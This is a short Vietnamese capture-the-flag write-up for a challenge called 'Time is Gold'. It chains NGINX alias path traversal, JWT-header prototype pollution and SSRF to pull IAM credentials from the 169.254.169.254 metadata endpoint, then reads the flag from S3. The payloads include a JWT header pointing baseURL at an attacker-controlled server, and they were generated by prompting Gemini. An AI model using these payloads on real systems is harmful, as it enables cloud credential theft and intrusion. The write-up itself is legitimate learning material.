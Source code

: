 ## Time is Gold

### 1. Path traversal via misconfigured NGINX alias
- Được BTC hint cho cái file `server.js` ở `http://47.129.239.241/assets../server.js` chứ mình cũng không mò ra

### 2. Check vulnerables of `server.js`and `jwt.js`
- Tải 2 file về rồi hỏi Gemini: `check my source code and show security vulnerabilities if I missed`
- Tập trung vào output sau

> **Critical JWT Policy Poisoning via Header Tampering**
> Your JWT library's "policy" mechanism can be manipulated by an attacker-controlled JWT header, leading to a bypass of security checks for all subsequent token verifications.
> 
> Vulnerable Code (jwt.js):
> ```
> function headerPolicyFor(typ, overrides, store = defaultHeaderPolicies) {
>  const key = String(typ || 'JWT');
>  if (!store[key]) store[key] = {};
>  const p = store[key];
>  if (isObject(overrides)) { // <-- VULNERABILITY HERE
>    // It merges the "overrides" (from the untrusted token header)
>    // into the shared policy object `p`.
>    for (const k of Object.keys(overrides)) {
>      p[k] = overrides[k];
>    }
>  }
>  return p;
> }

### 3. S3 Storage Usage
- Thấy cái `S3_GOLD_URL`
- IP `47.129.239.241` là IP của Amazon Data Services Singapore
- Đoán mò là Flag sẽ nằm trong S3

### 4. SSRF Potential
- Hỏi tiếp Gemini: `any SSRF that hacker can send request to localhost`
- Tập trung vào output sau
> goldHttpClient Path (direct=false)
> When the direct query parameter is explicitly set to 'false' or '0', this path is taken.
> ```
> response = await goldHttpClient.get(GOLD_API_PATH, requestConfig);
> ```

### 5. Generate payload 
- Tạo cái chat mới để hỏi Gemini tiếp, upload 2 files và hỏi `use headerPolicyFor to set goldHttpClient.defaults.baseURL or parent classes to abuse goldHttpClient.defaults.baseURL`
- Đáp án:
> **Exploitation: Chaining Prototype Pollution to SSRF**
> ```
> {
>  "alg": "HS256", 
>  "typ": "__proto__",
>  "baseURL": "http://attacker-controlled-server.com/"
> }
> ```

### 6. DIY - Do It Yourself
- Vì là S3 nên thử request vô `http://169.254.169.254/latest/meta-data/latest/meta-data/iam/security-credentials/`
```
- Set baseURL là http://169.254.169.254/latest/meta-data/latest/meta-data/iam/security-credentials/#
- Thêm dấu # để nó skip cái Path lấy giá vàng đi
- Xong lại gọi tiếp lần nữa với rolename để lấy token 
```
- May là trả ra cái role và thử tiếp thì có token
- Tiếp tục hỏi Gemini để cài **AWS CLI** lên máy rồi vô Storage lấy Flag thôi
- Flag mà teammate tìm được, mình chỉ ngồi chat với Gemini thôi

![](./flag_gold.jpg)

## Thanks to CBJS for the chalange!
## Have fun!
